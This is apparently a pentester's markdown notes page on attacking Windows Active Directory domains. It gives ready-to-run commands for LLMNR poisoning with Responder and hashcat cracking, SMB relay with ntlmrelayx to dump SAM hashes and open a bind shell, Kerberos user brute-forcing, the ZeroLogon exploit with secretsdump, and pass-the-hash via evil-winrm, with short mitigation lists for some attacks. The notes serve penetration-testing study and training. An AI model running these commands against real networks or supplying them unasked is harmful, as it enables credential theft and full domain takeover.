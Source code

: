 ```yaml
---
title: 3 - Windows Domain Exploitation
summary: Gaining Access step – a note for attacking Windows Domain.
description: Gaining Access step – a note for attacking Windows Domain.
---
```


# Resources

---

* [Pentesting Active Directory Mind Map - ODC](https://github.com/esidate/pentesting-active-directory/tree/main)
* [Top Five Ways I Got Domain Admin 2018 Edition - Adam Toscher](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# LLMNR Attack

---

### RESPONDER

### Principle

![exploit-llmnr-principle.png](../attachments/exploit-llmnr-principle.png)
Credit: TCM Security

### Hands On


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)


 > 
 > **<font color=red>hashcat -a 0 -m 5600 </font>myHashes.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack NetNTMLv2 hashes.

### Mitigation

* Disable LLMNR and NBT-NS
  * Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Multicast Name Resolution > OFF
  * Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > NetBIOS over TCP/IP > Disable
* If this cannot be disabled
  * Network Access Control.
  * Enforce strong user password (over 14 characters) in order to make it harder to crack hashes.

Credit: TCM Security

# SMB Relay Attack

---

### IMPACKET NTMLRELAYX

### Principle

Relay captured Hashes without cracking them to a SMB Server.

### Requirements & Limitations

* SMB Signing must be disabled on the target.
* The user that is relayed has to be admin on the target.
* It is not possible to relay a user to the same machine.

### Scan for vulnerable hosts (SMB Signing disabled)

**<font color=red>nmap --script=smb2-security-mode.nse -p445</font> \[TARGET_IP\]**</br>
Scan for disabled SMB Signing.

![tool-nmap-smb_signing.png](../attachments/tool-nmap-smb_signing.png)

### Hands on

#### Capture Hashes

Update Responder configuration to capture hashes but not respond.

 > 
 > **<font color=lightblue>/usr/share/responder/Responder.conf</font>**</br>

````
[Responder Core]

; Servers to start
SQL = On
#SMB = On # HERE #
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
````


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)

#### Relay Attacks


 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf </font>myTargets.txt <font color=red>-smb2support --no-multirelay</font>**</br>
 > Relay NTLM Hash and Dump Sam Hashes.

![tool-ntlmrelayx-smb_relay_dump_sam.png.png](../attachments/tool-ntlmrelayx-smb_relay_dump_sam.png.png)

\** /!\ TO CHECK /!\ **

 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf</font> myTargets.txt <font color=red>-smb2support --no-multirelay -i</font>**</br>
 > Relay NTLM Hash and start a Bind Shell.

![tool-ntmlrelayx-smb_relay_reverse_shell.png](../attachments/tool-ntmlrelayx-smb_relay_reverse_shell.png)

 > 
 > **<font color=red>nc 127.0.0.1 11000</font>**
 > Connect to the shell.

### Mitigation

* Enable SMB Signing on all devices
  * Warning: May cause performance issues with file copies
* Disable NTML authentication on network
  * Warning: NTML is the backup solution when Kerberos don't work, NTML may be required by some applications.
* Limit high privilege accounts to specific tasks (e.g. Domain Admins only log when a Domain Admin access is required).
* Enforce Local admins restriction.

Credit: TCM Security

# Find Valid Users

---

### KERBRUTE (Brute Force)


 > 
 > **<font color=red>kerbrute -dc-ip</font> \[TARGET_DC_IP\] <font color=red>-domain</font> \[TARGET_DOMAIN\] <font color=red>-users </font>myUserList.txt <font color=red>-t</font> 10**</br>
 > Find valid users by testing all usernames in a list (`-t` is for thread).

---

### IMPACKET GETNUPUSERS (Users No Pre-Auth Required)


 > 
 > **<font color=red>python3 /opt/impacket/examples/GetNPUsers.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>myUser <font color=red>-dc-ip</font> \[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Check for users that do not require Pre-Authentication.

# Exploit

---

### ZeroLogon Exploit (CVE-2020-1472)

### Warning

This exploit could destroy the Domain Controller if you don’t restore the password after the attack.

### Check if Vulnerable

**https://github.com/SecuraBV/CVE-2020-1472** 

 > 
 > **<font color=red>python3 zerologon_tester.py</font> myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Check if target is vulnerable to CVE-2020-1472

### Hands On

#### Exploit

**https://github.com/Sq00ky/Zero-Logon-Exploit/blob/master/zeroLogon-NullPass.py** 

 > 
 > **<font color=red>python3 zeroLogon-NullPass.py </font>myNetBIOSDCName \[TARGET_DC_IP\]**</br>
 > Run the exploit: bypass authentication and change the password to a null value. 

#### Hash Dump


 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py </font>myNetBIOSDCName<font color=red>\\$@</font>\[TARGET_DC_IP\] <font color=red>-no-pass</font>**</br>
 > Connect with empty password (after Zerologon exploit) and dump hashes. 

#### Pass the Hash


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).

#### Restore the machine state

 > 
 > **<font color=red>python3 /opt/impacket/examples/secretsdump.py</font> Administrator<font color=red>@</font>\[TARGET_DC_IP\] <font color=red>-hashes</font> myAdminHash**</br>
 > Dump secrets, look for `plain_password_hex`.

**https://github.com/dirkjanm/CVE-2020-1472** 

 > 
 > **<font color=red>python3 restorepassword.py </font>DOMAIN<font color=red>/</font>myNetBIOSDCName<font color=red>@</font>myNetBIOSDCName <font color=red>-target-ip</font> \[TARGET_DC_IP\] <font color=red>-hexpass</font> myPlainPasswordHex**
 > Restore the password.
